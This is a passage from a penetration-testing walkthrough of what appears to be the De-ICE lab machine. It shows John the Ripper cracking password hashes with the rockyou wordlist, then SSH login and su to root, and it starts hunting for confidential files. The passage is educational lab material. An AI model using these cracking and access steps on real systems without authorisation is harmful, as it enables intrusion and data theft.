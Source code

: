 The -single option is only so good. It will not be able to generate meaningful passwords that some users will use. This is where we will use the rockyou.txt word list once again to try and crack the remaining hashes. 

	root@kali ~$ john -wordlist:/usr/share/wordlists/rockyou.txt -pot:deice.pot hashes.txt                                          
	Loaded 4 password hashes with 4 different salts (FreeBSD MD5 [128/128 SSE2 intrinsics 12x])
	Remaining 3 password hashes with 3 different salts
	nostradamus      (aadams)
	tarot            (root)
	hierophant       (ccoffee)
	guesses: 3  time: 0:00:01:09 DONE (Thu Aug 15 11:55:59 2013)  c/s: 29217  trying: hieuloan - hieper
	Use the "--show" option to display all of the cracked passwords reliably

The -wordlist:/usr/share/wordlists/rockyou.txt is the only parameter different here (swapped out for -single). It simply points to where the word list to be used is located and enables the word list attack method.

So we now have passwords for all the users on the system! Is that it? Well no! Having root access is great, but it doesn't mean anything to a company that you might be testing. They will want to be told something a bit less technical like: "I was able to compromise your server and gain access to confidential files.". So, let's try and do that!

### Hunting for Treasure
	Let's try and log into the root account over SSH. SSH is commonly configured so that root can not be logged into remotely. But let's confirm that.
	root@kali ~$ ssh root@192.168.1.100                                                                                                        
	root@192.168.1.100's password: 
	Permission denied, please try again.
	root@192.168.1.100's password: 
	Permission denied, please try again.
	root@192.168.1.100's password: 
	Permission denied (publickey,password,keyboard-interactive).

As we can see it doesn't seem to want to let us in that way, but it doesn't matter, we can use the switch user command (su) on aadams to get to root:

	root@kali ~$ ssh aadams@192.168.1.100                                                                                               255 â†µ  
	aadams@192.168.1.100's password: 
	Linux 2.6.16.
	aadams@slax:~$ su root
	Password: *****
	root@slax:/home/aadams# 

So we are now running as root and have the run of the entire system. So let's hunt around for any files that might look interesting.

A good place to start is in the user's (and root's) home directories. It is a common place for storing files and the most likely place to find something interesting. Let's run the following commands:

	root@slax:/home/aadams# ls -lsaRhS /root/
	root@slax:/home/aadams# ls -lsaRhS /home/

Here we are making use of the ls command (the equivalent of dir in windows) to list the the contents of these directories. The options used mean:
